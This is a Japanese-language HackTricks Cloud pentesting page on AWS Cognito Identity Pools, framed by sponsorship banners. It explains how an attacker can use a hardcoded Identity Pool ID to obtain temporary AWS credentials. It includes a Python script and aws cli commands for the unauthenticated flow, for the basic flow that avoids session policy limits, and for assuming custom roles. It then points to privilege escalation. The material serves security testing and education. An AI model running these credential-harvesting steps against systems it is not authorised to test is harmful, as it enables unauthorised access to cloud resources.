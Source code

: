 # Cognito Identity Pools

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**PEASSの最新バージョンにアクセスしたい**場合、または**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をご覧ください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見する
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローする 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

## 基本情報

Identity Poolを使用すると、ユーザーはAmazon S3やDynamoDBなどのAWSサービスにアクセスするための**一時的なAWS認証情報を取得**できます。Identity Poolは、以下のIdentityプロバイダを使用してユーザーを認証するために使用できる匿名ゲストユーザーとしてのサポートを提供します。

* Amazon Cognitoユーザープール
* Facebook、Google、Amazonでのソーシャルサインイン、およびAppleでのサインイン
* OpenID Connect（OIDC）プロバイダ
* SAML IDプロバイダ
* 開発者認証済みのID

### Cognito Sync

Identity Poolセッションを生成するためには、まず**Identity IDを生成**する必要があります。このIdentity IDは、そのユーザーのセッションの**識別子**です。これらの識別子は、最大20のデータセットを持つことができ、1MBのキーバリューペアを格納することができます。

これは、ユーザーの情報を保持するのに**便利です**（常に同じIdentity IDを使用するユーザー）。

さらに、サービス**cognito-sync**は、この情報を**管理および同期**するためのサービスです（データセット内での情報の送信、ストリームおよびSNSメッセージの同期など）。

## IAMロールへのアクセス

### 認証されていない場合

Cognitoアプリで**認証されていないユーザーとしてAWS認証情報を取得**するために、攻撃者が知る必要があるのは**Identity Pool ID**だけであり、この**IDはWeb/モバイルアプリケーションにハードコード**されている必要があります。IDは次のような形式です：`eu-west-1:098e5341-8364-038d-16de-1865e435da3b`（ブルートフォースできません）。

{% hint style="success" %}
デフォルトで作成される**IAM Cognito未認証ロールの名前は**`Cognito_<Identity Poolの名前>Unauth_Role`です。
{% endhint %}

Identity Pool IDがハードコードされており、認証されていないユーザーが許可されている場合、次のコマンドでAWS認証情報を取得できます：
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
または、次の **aws cli コマンド** を使用することもできます:
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
デフォルトでは、未認証のCognitoユーザーは、ポリシーを介して割り当てられた場合でも、**いかなる権限も持つことはできません**。以下のセクションを確認してください。
{% endhint %}

### 強化認証フローと基本認証フロー

前のセクションでは、**デフォルトの強化認証フロー**に従いました。このフローでは、生成されたIAMロールセッションに**制限のある**[**セッションポリシー**](../../aws-basic-information/#session-policies)が設定されます。このポリシーでは、セッションが[**このリストのサービスを使用することしか許可されません**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services)（ロールが他のサービスにアクセスできる場合でも）。

ただし、**Identityプールに「基本（クラシック）フロー」が有効になっている場合**、ユーザーはそのフローを使用してセッションを取得し、**制限のあるセッションポリシーを持たない**セッションを取得することができます。

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
この**エラー**が表示される場合は、**基本フローが有効になっていない（デフォルト）**ためです。

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

IAMの資格情報を持っている場合は、[どのアクセス権限を持っているか](../../#whoami)を確認し、[特権を昇格させる](../../aws-privilege-escalation/)ことを試してください。

### 認証済み

{% hint style="info" %}
**認証済みのユーザー**はおそらく**異なる権限**が与えられる可能性があるため、**アプリ内でサインアップ**できる場合は、それを試して新しい資格情報を取得してください。
{% endhint %}

また、**Identity Pool**にアクセスする**認証済みユーザー向けのロール**も利用可能です。

そのためには、**アイデンティティプロバイダ**にアクセスできる必要があります。もし**Cognitoユーザープール**である場合、デフォルトの動作を悪用して**新しいユーザーを作成**することができるかもしれません。

{% hint style="success" %}
**IAM Cognito認証済みロールはデフォルトで** `Cognito_<Identity Pool名>Auth_Role` **と呼ばれます**
{% endhint %}

とにかく、**以下の例**では、すでに**Identity Poolにアクセスするために使用されるCognitoユーザープール**にログインしていることを前提としています（他のタイプのアイデンティティプロバイダも設定されている可能性があることを忘れないでください）。

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# 前のコマンドのレスポンスからidentity_idを取得する
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# IdTokenには、ユーザープールグループによってユーザーがアクセスできるロールが含まれています
# 特定のロールに対して資格情報を取得するために --custom-role-arn を使用します
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
ユーザーがログインしているアイデンティティプロバイダやユーザーごとに**異なるIAMロールを設定することが可能**です（クレームを使用）。したがって、同じまたは異なるプロバイダを介して異なるユーザーにアクセスできる場合は、それらすべてのIAMロールにログインしてアクセスすることができるかもしれません。
{% endhint %}

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* **HackTricksで会社を宣伝**したい場合や、**PEASSの最新バージョンを入手**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をご確認ください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)を手に入れましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしましょう🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリに**PRを提出**して、あなたのハッキングトリックを共有しましょう。

</details>
